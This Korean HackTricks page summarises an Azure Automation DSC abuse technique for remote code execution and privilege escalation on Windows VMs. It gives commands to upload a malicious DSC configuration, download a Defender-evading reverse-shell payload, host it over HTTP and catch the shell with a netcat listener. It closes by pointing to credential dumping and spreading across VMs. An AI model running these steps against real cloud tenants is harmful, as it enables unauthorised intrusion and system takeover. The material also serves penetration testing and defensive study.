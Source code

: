 # Az - 상태 구성 RCE

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

**전체 게시물 확인: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### 원격 서버 (C2) 인프라 준비 및 단계 요약

#### 개요
이 프로세스는 Windows Defender를 우회하는 목적으로 설계된 수정된 Nishang `Invoke-PowerShellTcp.ps1` 페이로드인 `RevPS.ps1`를 호스팅하는 원격 서버 인프라를 설정하는 것을 포함합니다. 이 페이로드는 IP가 `40.84.7.74`인 Kali Linux 머신에서 간단한 Python HTTP 서버를 통해 제공됩니다. 이 작업은 다음과 같은 단계를 거쳐 실행됩니다:

#### 단계 1 — 파일 생성
- **필요한 파일:** 두 개의 PowerShell 스크립트가 필요합니다:
1. `reverse_shell_config.ps1`: 페이로드를 가져와 실행하는 Desired State Configuration (DSC) 파일입니다. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)에서 얻을 수 있습니다.
2. `push_reverse_shell_config.ps1`: 구성을 VM에 발행하는 스크립트로, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)에서 사용할 수 있습니다.
- **사용자 정의:** 이러한 파일의 변수 및 매개변수는 사용자의 특정 환경에 맞게 조정되어야 합니다. 이는 리소스 이름, 파일 경로, 서버/페이로드 식별자를 포함합니다.

#### 단계 2 — 구성 파일 압축
- `reverse_shell_config.ps1`을 `.zip` 파일로 압축하여 Azure Storage Account로 전송할 준비를 합니다.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### 단계 3 — 저장소 컨텍스트 설정 및 업로드
- 압축된 구성 파일은 Azure의 Set-AzStorageBlobContent cmdlet을 사용하여 미리 정의된 Azure Storage 컨테이너인 azure-pentest에 업로드됩니다.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### 단계 4 — Kali Box 준비
- Kali 서버는 GitHub 저장소에서 RevPS.ps1 페이로드를 다운로드합니다.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- 스크립트가 편집되어 역술 쉘을 위한 대상 Windows VM 및 포트를 지정합니다.

#### 단계 5 — 구성 파일 게시
- 구성 파일이 실행되어 역술 쉘 스크립트가 Windows VM의 지정된 위치에 배포됩니다.

#### 단계 6 — 페이로드 호스팅 및 수신기 설정
- Python SimpleHTTPServer가 시작되어 페이로드를 호스팅하며, 수신되는 연결을 캡처하기 위해 Netcat 수신기가 설정됩니다.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- 예약된 작업은 페이로드를 실행하여 SYSTEM 수준의 권한을 획득합니다.

#### 결론

이 프로세스의 성공적인 실행은 자격 증명 덤프 또는 여러 VM으로의 공격 확장과 같은 다양한 추가 조치 가능성을 엽니다. 이 안내서는 Azure Automation DSC 영역에서 계속된 학습과 창의성을 장려합니다.
